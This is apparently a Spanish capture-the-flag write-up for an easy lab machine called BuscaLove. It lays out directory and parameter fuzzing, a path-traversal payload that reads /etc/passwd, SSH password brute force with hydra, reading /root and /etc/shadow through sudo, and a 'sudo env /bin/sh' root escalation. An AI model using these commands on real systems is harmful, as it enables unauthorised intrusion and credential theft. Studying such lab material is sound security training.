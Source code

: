 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓01/09/2025'
---
```


# BuscaLove

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap`:

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Si nos vamos al navegador y ponemos la IP, nos muestra la página por defecto de Apache. Podemos ver directorios ocultos con `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Vemos que existe un directorio llamado `/wordpress` con el siguiente contenido:

<div align="left"><figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure></div>

Es una página sencilla sin CSS ni ningún enlace externo. El código fuente de la página tampoco nos dice nada. Si realizamos otro fuzzing sobre el directorio wordpress:

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt:FUZZ -u http://$IPTARGET/wordpress/FUZZ -e .html,.php,.txt,.xml,.js
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Vemos que solo está el index.php. Podemos probar a fuzzear parámetros para ver si la página es vulnerable a LFI.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u "http://$IPTARGET/wordpress/index.php?FUZZ=../../../../../../../etc/passwd" -fs 1048
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption><p>Llegar a esta parte de la solución no fue nada fácil para mi xd</p></figcaption></figure>

Existe un parámetro `love` que es vulnerable a `LFI`. Con él, podemos ver el archivo `/etc/passwd` del sistema.

```url
http://<IP-MAQUINA>/wordpress?love=../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## 🚪 Ganando acceso

El fichero nos muestra que hay dos usuarios que poseen un shell válido (`/bin/bash`). Probando fuerza bruta con `hydra`, obtenemos un acierto para el usuario `rosa` y la wordlist de `rockyou`.&#x20;

```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET -t 20 -I
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

## 💥 Escalada de privilegios

Una vez dentro del sistema, comprobamos los permisos que tenemos con `sudo -l`, lo que nos muestra que tenemos permisos como `root` (o cualquier usuario) para el binario `ls` y `cat`.

Hablando con un amigo, me comentó que su camino fue distinto, y es que en este momento tienes dos opciones:

1. Listar el directorio `/root` y seguir por ahí.
2. Alternativa: hacer `cat` al fichero `/etc/shadow` y crackear por fuerza bruta la contraseña de `root` o la de `pedro`.

A continuación mostraré la opción 1 que es la que seguí yo, pero la opción 2 también va bien encaminada para resolver la máquina.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

El directorio `/root` contiene un fichero con un contenido en hexadecimal. Si decodificamos con `xxd`, obtenemos la cadena `NZXWCY3F0J2GC4TB0NXXG2IK`. Si pasamos esta cadena por [cyberchef](https://gchq.github.io/CyberChef/), nos muestra que está codificada en Base32.

<div align="left" data-full-width="false"><figure><img src="../../.gitbook/assets/image (47).png" alt="" width="221"><figcaption></figcaption></figure></div>

Probamos como contraseña para el usuario `pedro` anteriormente visto:

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Una vez dentro, volvemos a consultar los permisos con `sudo` para este usuario:

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar el binario `env` como `root`. Si buscamos algún exploit para este binario en [gtfobins](https://gtfobins.github.io/), vemos que ejecutando `sudo env /bin/sh` obtenemos una shell como `root`:

<div align="left"><figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure></div>
